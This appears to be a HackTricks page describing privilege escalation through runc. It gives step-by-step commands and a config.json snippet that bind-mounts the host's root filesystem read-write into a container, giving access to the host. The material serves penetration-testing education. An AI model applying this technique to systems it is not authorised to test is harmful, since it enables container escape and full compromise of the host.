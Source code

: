 ## Basic information

If you want to learn more about runc check the following page:

## PE

If you find that `runc` is installed in the host you may be able to run a container mounting the root / folder of the host.

```
runc -help #Get help and see if runc is intalled
runc spec #This will create the config.json file in your current folder

Inside the "mounts" section of the create config.json add the following lines:
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},

#Once you have modified the config.json file, create the folder rootfs in the same directory
mkdir rootfs

# Finally, start the container
# The root folder is the one from the host
runc run demo
```

This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work (unless you have a rootless configuration). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers.

Learn & practice AWS Hacking:
Learn & practice GCP Hacking: 

Support HackTricksCheck the !

Join the 💬  or the  or follow us on Twitter 🐦 .

Share hacking tricks by submitting PRs to the  and  github repos.